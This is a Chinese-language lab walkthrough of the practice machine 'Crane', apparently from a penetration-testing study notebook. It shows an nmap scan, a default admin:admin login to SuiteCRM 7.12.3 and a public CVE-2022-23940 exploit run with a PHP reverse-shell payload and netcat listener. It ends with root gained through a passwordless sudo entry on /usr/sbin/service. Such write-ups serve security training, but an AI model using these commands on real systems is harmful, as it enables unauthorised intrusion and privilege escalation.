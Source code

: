 ```yaml
---
description: Easy - Linux / SuiteCRM 7.12.3 / CVE-2022-23940 / NOPASSWD提权
---
```


# ✔️ Crane

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到4个端口：22 / 80 / 3306 / 33060

```bash
nmap -sC -sV -p- -oA crane 192.168.178.146 --open 
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 检查80端口上的内容，尝试弱口令成功：**admin : admin**

<figure><img src="../../.gitbook/assets/2 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 并查询到了当前正在运行的程序SuiteCRM的版本号：**v7.12.3**

<figure><img src="../../.gitbook/assets/6 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 查看/robots.txt文件，返现一个名为 **/ical\_server.php** 的php文件，将其下载到本地：

<figure><img src="../../.gitbook/assets/3 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据当前已知的程序及其版本号**SuiteCRM 7.12.3**，搜索到了公开的已知漏洞可以利用：**CVE-2022-23940**

<figure><img src="../../.gitbook/assets/7 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 下载该脚本，并执行：

```bash
python3 exploit.py -h http://192.168.178.146 -u admin -p admin --payload "php -r '\$sock=fsockopen(\"192.168.45.240\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'" 

nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/10 (1) (1).png" alt=""><figcaption></figcaption></figure>

### Get Shell

* 成功获取到shell：

<figure><img src="../../.gitbook/assets/9 (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单手动枚举，发现 **/usr/sbin/service**程序不需要密码即可以root身份运行：

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/11 (1) (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 直接利用该程序进行提权：

```bash
sudo /usr/sbin/service ../../../../../bin/bash
```

<figure><img src="../../.gitbook/assets/12 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (2).png" alt=""><figcaption></figcaption></figure>
